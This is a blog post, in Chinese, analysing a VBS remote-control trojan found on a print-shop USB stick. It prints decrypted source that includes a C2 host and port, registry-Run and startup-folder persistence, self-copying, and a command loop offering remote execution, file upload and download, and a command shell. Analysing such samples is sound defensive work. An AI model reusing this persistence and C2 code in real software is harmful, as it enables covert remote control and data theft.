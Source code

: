 ```yaml
---
title: 打印店病毒分析 - VBS
category: Sec
---
```


## 打印店病毒分析 - VBS

样本仅供学习研究使用：

- [解密前]({{ site.url }}/resources/printer-virus/virus-0/vbs-virus-en.vbs.en.b64)
- [解密后]({{ site.url }}/resources/printer-virus/virus-0/vbs-virus-de.vbs.en.b64)

---

### 基本信息

这个恶意代码也是某次从打印店回来后在U盘里获得的。脚本语言写恶意程序，关键要骗过会查看源代码的用户。为此，作者进行了简单的加密处理。

VirSCAN.org在线测试：

解密前：

Scanner results:33%Scanner(s) (13/39)found malware  
File Name : vbs-virus-en.vbs.en.b64.vbs (File not down)  
File Size :209255 byte  
File Type :text/plain  
MD5:124bb52a16d3fceb3b66c00897b14f95  
SHA1:d83c5dae4ebc46383e686df8981259a654513c51  
[Online report](http://r.virscan.org/report/7143a9ae27122bc3eb13a70704b4a6fc)

解密后：

Scanner results:51%Scanner(s) (20/39)found malware!  
File Name : vbs-virus-de.vbs.en.b64.de.vbs (File not down)  
File Size :15064 byte  
File Type :text/plain  
MD5:459af2ecc630989d2e36228a3720aca4  
SHA1:d78cbaf3b3de8e57d6e8f2a25ed016894135f9d4  
[Online report](http://r.virscan.org/report/c5b17ed5482846db85fb9b50d1e8b8e7)

解密后的查出率高了不少。

### 代码分析

加密方法很简单。预先把代码分解成一个一个字符，运行时先拼凑出代码字符串，然后调用`executeglobal()`执行。解密思路很简单，把执行语句改成输出语句就行，重定向到文件里。

下面分析解密后的代码。

第一行，作者说自己是重写别人的代码，还留下了他的skype号......  
整体来看，作者编码习惯还是不错的。注释很到位。

首先是用于配置的一些变量：

{% highlight vbs %}
host = "spamer01.no-ip.org"
port = 3344
installdir = "%temp%"
lnkfile = true
lnkfolder = true
{% endhighlight %}

看样子是个木马。

设置了一些变量，这些分别是创建出来的WshShell对象，文件系统对象，xmlhttp对象：

{% highlight vbs %}
dim shellobj
set shellobj = wscript.createobject("wscript.shell")
dim filesystemobj
set filesystemobj = createobject("scripting.filesystemobject")
dim httpobj
set httpobj = createobject("msxml2.xmlhttp")
{% endhighlight %}

又设置了一些变量，其中：

`installname`存储它自己的名字；  
`startup`存储开机启动文件夹的路径；  
`installdir`内容变为存储之前`installdir`对应的环境变量的真实路径（上面作者预设的是`%temp%`）；  
接着检查上步得到的`installdir`路径是否存在，不存在则采用默认的`%temp%`（属于二次确认）；  
`spliter`内容是`<|>`估计是用来解析数据；  
`sleep`定义了睡眠时间是5000毫秒。  
还有一些其他变量，但没有具体初始化，到后面用到再说。

{% highlight vbs %}
installname = wscript.scriptname
startup = shellobj.specialfolders ("startup") & "\"
installdir = shellobj.expandenvironmentstrings(installdir) & "\"
if not filesystemobj.folderexists(installdir) then  installdir = shellobj.expandenvironmentstrings("%temp%") & "\"
spliter = "<" & "|" & ">"
sleep = 5000
dim response
dim cmd
dim param
info = ""
usbspreading = ""
startdate = ""
dim oneonce
{% endhighlight %}

万事俱备，开始搞事情了。

首先是一句`on error resume next`，即当前语句执行出错时不要终止，而是执行下一条语句，在VBS里这条语句使用频率非常高。

接着调用`instance`函数,其功能是：



{% highlight vbs %}
function instance

on error resume next
usbspreading = shellobj.regread ("HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0) & "\")

if usbspreading = "" then
   if lcase ( mid(wscript.scriptfullname,2)) = ":\" &  lcase(installname) then
      usbspreading = "true - " & date
      shellobj.regwrite "HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0)  & "\", usbspreading, "REG_SZ"
   else
      usbspreading = "false - " & date
      shellobj.regwrite "HKEY_LOCAL_MACHINE\software\" & split (installname,".")(0)  & "\", usbspreading, "REG_SZ"
   end if
end If

upstart

set scriptfullnameshort =  filesystemobj.getfile (wscript.scriptfullname)
set installfullnameshort =  filesystemobj.getfile (installdir & installname)
if lcase (scriptfullnameshort.shortpath) <> lcase (installfullnameshort.shortpath) then
    shellobj.run "wscript.exe //B " & chr(34) & installdir & installname & Chr(34)
    wscript.quit
end If

err.clear
set oneonce = filesystemobj.opentextfile (installdir & installname ,8, false)
if  err.number > 0 then wscript.quit

end function
{% endhighlight %}

{% highlight vbs %}
sub upstart ()

on error resume Next

shellobj.regwrite "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run\" & split (installname,".")(0),  "wscript.exe //B " & chrw(34) & installdir & installname & chrw(34) , "REG_SZ"

shellobj.regwrite "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run\" & split (installname,".")(0),  "wscript.exe //B "  & chrw(34) & installdir & installname & chrw(34) , "REG_SZ"

filesystemobj.copyfile wscript.scriptfullname,installdir & installname,true
filesystemobj.copyfile wscript.scriptfullname,startup & installname ,true

end sub
{% endhighlight %}

`instance`执行后，程序进入永真循环，逻辑很清晰。

{% highlight vbs %}
while true
    install
    response = ""
    response = post ("is-ready","")
    cmd = split (response,spliter)
    select case cmd (0)
    case "excecute"
          param = cmd (1)
          execute param
    case "update"
          param = cmd (1)
          oneonce.close
          set oneonce =  filesystemobj.opentextfile (installdir & installname ,2, false)
          oneonce.write param
          oneonce.close
          shellobj.run "wscript.exe //B " & chr(34) & installdir & installname & chr(34)
          wscript.quit
    case "uninstall"
          uninstall
    case "send"
          download cmd (1),cmd (2)
    case "site-send"
          sitedownloader cmd (1),cmd (2)
    case "recv"
          param = cmd (1)
          upload (param)
    case  "enum-driver"
          post "is-enum-driver",enumdriver
    case  "enum-faf"
          param = cmd (1)
          post "is-enum-faf",enumfaf (param)
    case  "enum-process"
          post "is-enum-process",enumprocess
    case  "cmd-shell"
          param = cmd (1)
          post "is-cmd-shell",cmdshell (param)
    case  "delete"
          param = cmd (1)
          deletefaf (param)
    case  "exit-process"
          param = cmd (1)
          exitprocess (param)
    case  "sleep"
          param = cmd (1)
          sleep = eval (param)
    end select
	wscript.sleep sleep
wend
{% endhighlight %}

### 总结

作为一个远控，隐藏自己和完成命令同样重要。
